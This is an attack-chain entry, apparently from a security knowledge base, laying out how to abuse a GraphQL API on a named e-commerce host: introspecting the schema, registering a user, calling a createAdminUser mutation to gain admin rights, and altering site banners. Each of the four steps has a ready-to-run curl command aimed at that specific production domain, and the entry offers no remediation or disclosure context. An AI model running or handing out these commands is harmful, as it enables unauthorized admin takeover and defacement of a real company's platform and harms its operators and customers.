

---
tags:
  - graphql
  - auth-bypass
  - privilege-escalation
  - introspection
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Privilege Escalation]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Enumerate-GraphQL-Endpoint-and-Introspection]]'
  - '[[procedures/Register-Regular-User-Account]]'
  - '[[procedures/Create-Admin-User-via-Mutation]]'
  - '[[procedures/Access-and-Modify-Privileged-Features]]'
step_count: 4
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Valid Accounts]]'
  - '[[Create Account]]'
updated_at: '2025-12-14T17:25:59.713Z'
description: >-
  Multi-stage attack exploiting exposed GraphQL introspection and weak
  authorization to escalate from regular user to admin, enabling sensitive
  e-commerce modifications.
skill_level: intermediate
impact_level: high
id: 0ebe4abe-485a-4ed9-b068-7897ef95da25
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Privilege Escalation]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Valid Accounts]]'
  - '[[Create Account]]'
---
# GraphQL Introspection Leading to Admin Privilege Escalation

Multi-stage attack chain demonstrating exploitation of an exposed GraphQL API with enabled introspection and insufficient authorization checks, allowing unauthorized access to internal schema and privilege escalation to admin level on an e-commerce platform.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses standard HTTP clients like curl)

### Target Environment

- Web platform with GraphQL API
- Exposed endpoint on HTTPS
- E-commerce services

### Initial Access Requirements

- Network access to the target API (https://tng-api.watsons.com.my)
- No prior credentials needed

## Detailed Attack Procedures

### Step 1: Endpoint Enumeration
procedure: [[procedures/Enumerate-GraphQL-Endpoint-and-Introspection]]

**Objective**: Identify and introspect the GraphQL API to reveal available queries and mutations.

**Instructions**: Send an introspection query to the suspected GraphQL endpoint using [[commands/graphql-introspect]] to fetch the schema.

```bash
curl -X POST https://tng-api.watsons.com.my/graphql -H "Content-Type: application/json" -d '{"query": "query { __schema { queryType { name } mutationType { name } types { name } } }"}'
```

**Expected Output**: JSON response detailing schema types, queries, and mutations, confirming introspection is enabled without restrictions.

**Success Indicators**:
- Schema details returned, including Register and CreateAdminUser mutations
- No authentication required for introspection

### Step 2: User Registration
procedure: [[procedures/Register-Regular-User-Account]]

**Objective**: Create an authenticated regular user account to gain initial access to protected endpoints.

**Instructions**: Use the Register mutation with [[commands/graphql-register-user]] to submit user details.

```bash
curl -X POST https://tng-api.watsons.com.my/graphql -H "Content-Type: application/json" -d '{"query": "mutation { register(input: {email: \"test@example.com\", password: \"password123\"}) { user { id } token } }"}'
```

**Expected Output**: JSON with user ID and authentication token for session management.

**Success Indicators**:
- User account created successfully
- Token received for subsequent authenticated requests

### Step 3: Privilege Escalation
procedure: [[procedures/Create-Admin-User-via-Mutation]]

**Objective**: Exploit weak authorization to create an admin account using the authenticated session.

**Instructions**: Include the auth token in headers and execute the CreateAdminUser mutation with [[commands/graphql-create-admin]]:

```bash
curl -X POST https://tng-api.watsons.com.my/graphql -H "Content-Type: application/json" -H "Authorization: Bearer YOUR_TOKEN" -d '{"query": "mutation { createAdminUser(input: {email: \"admin@example.com\", password: \"adminpass\"}) { user { id role } } }"}'
```

**Expected Output**: JSON confirming admin user creation with elevated role.

**Success Indicators**:
- Admin user created without proper checks
- Role set to admin

### Step 4: Privileged Access
procedure: [[procedures/Access-and-Modify-Privileged-Features]]

**Objective**: Use admin credentials to access and alter sensitive e-commerce features.

**Instructions**: Authenticate as admin and query/modify banners or products using [[commands/graphql-modify-banner]]:

```bash
curl -X POST https://tng-api.watsons.com.my/graphql -H "Content-Type: application/json" -H "Authorization: Bearer ADMIN_TOKEN" -d '{"query": "mutation { updateBanner(input: {id: \"1\", content: \"Hacked Banner\"}) { banner { id content } } }"}'
```

**Expected Output**: JSON showing updated banner or product details.

**Success Indicators**:
- Modifications applied to front-end e-commerce elements
- Access to internal API features granted

## Attack Chain Summary

### Key Achievements

1. Exposed GraphQL schema via introspection
2. Initial user access without strong auth
3. Privilege escalation to admin
4. Manipulation of e-commerce content like banners and promotions

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Valid Accounts]]
- [[Create Account]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Privilege Escalation]]

---
*Last updated: 2023-10-01T00:00:00Z*
